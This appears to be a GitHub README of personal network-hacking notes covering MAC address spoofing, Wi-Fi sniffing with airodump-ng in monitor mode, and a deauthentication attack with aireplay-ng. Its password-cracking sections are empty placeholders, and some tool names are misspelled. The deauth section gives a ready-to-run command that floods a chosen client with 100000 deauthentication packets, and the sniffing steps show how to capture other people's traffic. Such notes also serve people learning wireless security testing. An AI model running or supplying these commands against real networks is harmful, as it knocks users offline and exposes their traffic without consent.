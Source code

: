 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [Deauth Attack](#deauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**desc** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

`aerodump-ng` is a packet sniffer
 - Use to capture packets within range
 - Display detailed info about networks
 - part of `aircrak-ng` suit

usage : `airodump-ng <INTERFACE>`

1. Must change wireless mode : Managed to Monitor
   ```bash
   # step 1
   ifconfig <INTERFACE> down
   # step 2
   airmon-ng check kill
   # step 3
   iwconfig <INTERFACE> mode monitor
   # step 4
   ifconfig <INTERFACE> up
   ```
3. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## Deauth Attack with `aireplay-ng`

usage : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

TODO

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
